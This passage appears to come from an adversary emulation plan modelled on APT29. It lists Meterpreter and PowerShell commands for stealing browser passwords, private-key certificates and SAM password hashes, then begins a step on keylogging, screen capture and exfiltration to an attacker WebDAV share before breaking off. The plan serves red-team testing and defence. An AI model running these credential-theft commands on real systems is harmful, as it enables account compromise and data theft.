 #### Procedures

##### 6.A - Credentials from Password Stores: Credentials from Web Browsers ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1555.003](https://attack.mitre.org/techniques/T1555/003/))

Execute chrome-password collector:

[meterpreter (PowerShell)\*] > `& "C:\Program Files\SysinternalsSuite\accesschk.exe"`

##### 6.B - Unsecured Credentials: Private Keys ([T1145](https://attack.mitre.org/versions/v6/techniques/T1145/) / [T1552.004](https://attack.mitre.org/techniques/T1552/004/))

Steal PFX certificate:

[meterpreter (PowerShell)\*] > `Get-PrivateKeys`

[meterpreter (PowerShell)\*] > `exit`

##### 6.C - OS Credential Dumping: Security Account Manager ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1003.002](https://attack.mitre.org/techniques/T1003/002/))

Dump password hashes:

[meterpreter\*] > `run post/windows/gather/credentials/credential_collector`

#### Cited Intelligence

* Open Invitation Contributors: Kaspersky, SentinelOne

* CosmicDuke’s information stealing functionality has included exporting user’s cryptographic certificates, including private keys, and collecting user credentials, including passwords from web browsers (ex: Google Chrome). CozyDuke has contained modules that can steal NTLM hashes as well as capture screenshots. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

---

### Step 7 - Collection and Exfiltration

The attacker collects screenshots ([T1113](https://attack.mitre.org/techniques/T1113/)), data from the user’s clipboard ([T1115](https://attack.mitre.org/techniques/T1115/)), and keystrokes ([T1056](https://attack.mitre.org/versions/v6/techniques/T1056/) / [T1056.001](https://attack.mitre.org/techniques/T1056/001/)). The attacker then collects files ([T1005](https://attack.mitre.org/techniques/T1005/)), which are compressed and encrypted ([T1560](https://attack.mitre.org/versions/v6/techniques/T1560/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/)), before being exfiltrated to an attacker-controlled WebDAV share ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1048](https://attack.mitre.org/techniques/T1048/003)).

#### Procedures

##### 7.A - User Monitoring ([T1113](https://attack.mitre.org/techniques/T1113/), [T1115](https://attack.mitre.org/techniques/T1115/), [T1056](https://attack.mitre.org/versions/v6/techniques/T1056/) / [T1056.001](https://attack.mitre.org/techniques/T1056/001/))
